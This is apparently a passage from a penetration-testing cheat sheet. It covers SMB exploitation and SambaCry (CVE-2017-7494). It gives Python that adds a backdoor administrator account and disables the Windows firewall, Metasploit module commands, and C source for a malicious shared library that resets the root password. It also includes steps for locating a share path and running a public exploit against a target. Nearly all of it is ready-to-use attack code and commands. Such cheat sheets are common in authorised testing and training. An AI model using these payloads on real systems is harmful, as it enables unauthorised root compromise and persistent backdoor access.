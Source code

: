 ```python
def smb_pwn(conn, arch):
	...
	service_exec(conn, r'cmd /c net user snovvcrash Passw0rd! /add')
	service_exec(conn, r'cmd /c net localgroup administrators snovvcrash /add')
	service_exec(conn, r'cmd /c netsh firewall set opmode disable')
```



### SambaCry

**CVE-2017-7494** (Samba 3.5.0 < 4.4.14/4.5.10/4.6.4)


#### MSF

```
msf > use exploit/linux/samba/is_known_pipename
msf > set SMB::AlwaysEncrypt false
msf > set SMB::ProtocolVersion 1
msf > run
```


#### Manually

* [https://github.com/opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494)
* [https://github.com/joxeankoret/CVE-2017-7494](https://github.com/joxeankoret/CVE-2017-7494)

Compile `.so` SUID shared library:

```c
// gcc -shared -fPIC -o pwn.so pwn.c

 #include <stdio.h>
 #include <stdlib.h>

static void pwn() __attribute__((constructor));

void pwn() {
	setresuid(0,0,0);
	system("echo 'root:Passw0rd!'|chpasswd");
}
```

Get real share path on the target's filesystem:

```
$ rpcclient -U'%' -c'netsharegetinfo ShareName' 10.10.13.37
path:    /home/snovvcrash/sharename
```

Upload `pwn.so` to target and then run the exploit:

```
$ pip install virtualenv
$ virtualenv -p /usr/bin/python2.7
$ source venv/bin/activate.sh
$ pip install -r requirements.txt
$ . venv/bin/activate
$ ./exploit.py -t 10.10.13.37 -e pwn.so -s ShareName -r /home/snovvcrash/sharename/pwn.so -u anonymous -p ''
```
